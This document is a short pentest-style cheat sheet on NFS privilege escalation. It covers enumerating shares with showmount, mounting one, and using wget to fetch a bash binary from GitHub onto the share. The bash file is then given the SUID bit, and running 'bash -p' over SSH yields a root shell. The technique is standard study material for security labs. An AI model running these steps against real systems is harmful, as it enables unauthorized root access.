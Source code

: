 # NFS
NFS stands for "Network File System" and allows a system to share directories and files with others over a network. By using NFS, users and programs can access files on remote systems almost as if they were local files. It does this by mounting all, or a portion of a file system on a server. The portion of the file system that is mounted can be accessed by clients with whatever privileges are assigned to each file.

## Workflow
1. Port scan with nmap
2. Enumerate accessible shares
3. Create a mount point
4. Mount the NFS share to the mount point
5. [Download](https://github.com/polo-sec/writing/blob/master/Security%20Challenge%20Walkthroughs/Networks%202/bash) or make a bash executable (The file must be owned by root)
6. Add the SUID bit and execution permission to the bash executable
7. SSH into the remote host (if SSH private key is found in the share)
8. Run the executable on the remote host

## Enumeration (with NFS-Common)
### NFS-Common
NFS-Common includes programs such as: lockd, statd, showmount, nfsstat, gssd, idmapd and mount.nfs.

### Listing NFS Shares
showmount -e [IP]  

## Exploitation
### Create a mount point
mkdir [MOUNT POINT]

### Mounting NFS shares
sudo mount -t nfs [IP]:[SHARE] [MOUNT POINT] -nolock

- -t : Type of device to mount
- IP : The IP Address of the NFS server
- SHARE	: The name of a share in the remote host
- LOCAL DIR: The local directory to mount a share to
- -nolock	: Specifies not to use NLM locking

### Download or make a bash executable
sudo wget https://github.com/polo-sec/writing/blob/master/Security%20Challenge%20Walkthroughs/Networks%202/bash?raw=true -O [MOUNT POINT]/bash

### Add the SUID bit and execution permission
cd [MOUNT POINT] && sudo chmod +xs bash

### SSH into the remote host
ssh -i [PRIVATE KEY] [USERNAME]@[HOSTNAME]

### Run the bash executable (with p persisting permission)
./bash -p
